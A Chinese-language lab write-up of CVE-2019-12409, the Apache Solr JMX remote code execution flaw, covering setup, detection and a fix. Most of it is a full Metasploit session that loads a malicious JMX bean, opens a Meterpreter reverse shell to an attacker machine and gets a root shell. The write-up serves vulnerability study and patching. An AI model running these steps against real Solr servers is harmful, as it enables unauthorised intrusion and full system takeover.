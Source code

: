# Apache Solr JMX服务 RCE  CVE-2019-12409

## 漏洞描述

Java ManagementExtensions（JMX）是一种Java技术，为管理和监视应用程序、系统对象、设备（如打印机）和面向服务的网络提供相应的工具。JMX 作为 Java的一种Bean管理机制，如果JMX服务端口暴露，那么远程攻击者可以让该服务器远程加载恶意的Bean文件，随着Bean的滥用导致远程代码执行。



## 影响版本

> [!NOTE]
>
> Apache Solr 8.1.1
>
> Apache Solr 8.2.0



## 环境搭建

[下载 Apache Solr 8.2.0](http://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.zip)

也可以docker搭建

```
docker pull solr:8.2.0
docker run --name solr -d -p 8983:8983 -t solr:8.2.0
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可



## 漏洞复现

查看搭建的Solr是否存在漏洞,查看solr.in.sh配置文件中的ENABLE_REMOTE_JMX_OPTS选项设置是否为“Ture”，如果为Ture，则存在漏洞

查看漏洞端口18983是否开放

> [!NOTE]
>
> nmap xxx.xxx.xxx.xxx -p 18983

![](http://wikioss.peiqi.tech/vuln/solr-20.png)

```shell
root@kali:~/桌面# msfconsole
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your module, why not try the reload command

msf5 > use exploit/multi/misc/java_jmx_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > set rhost 192.168.51.146
rhost => 192.168.51.146
msf5 exploit(multi/misc/java_jmx_server) > set rport 18983
rport => 18983
msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        192.168.51.146   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         18983            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.51.149   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 192.168.51.149:4444 
[*] 192.168.51.146:18983 - Using URL: http://0.0.0.0:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Local IP: http://192.168.51.149:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Sending RMI Header...
[*] 192.168.51.146:18983 - Discovering the JMXRMI endpoint...
[+] 192.168.51.146:18983 - JMXRMI endpoint on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Proceeding with handshake...
[+] 192.168.51.146:18983 - Handshake with JMX MBean server on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Loading payload...
[*] 192.168.51.146:18983 - Replied to request for mlet
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] 192.168.51.146:18983 - Executing payload...
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] Sending stage (53944 bytes) to 192.168.51.146
[*] Meterpreter session 1 opened (192.168.51.149:4444 -> 192.168.51.146:56234) at 2020-11-05 14:17:04 +0800

                                                                            
meterpreter >                                                                 
meterpreter > shell                                                            
Process 1 created.                                                              
Channel 1 created.                                                                
id                                                                                 
用户id=0(root) 组id=0(root) 组=0(root)  
```

![](http://wikioss.peiqi.tech/vuln/solr-21.png)

### 漏洞修复

将solr.in.sh配置文件中的ENABLE_REMOTE_JMX_OPTS选项设置为false，然后重启Solr服务。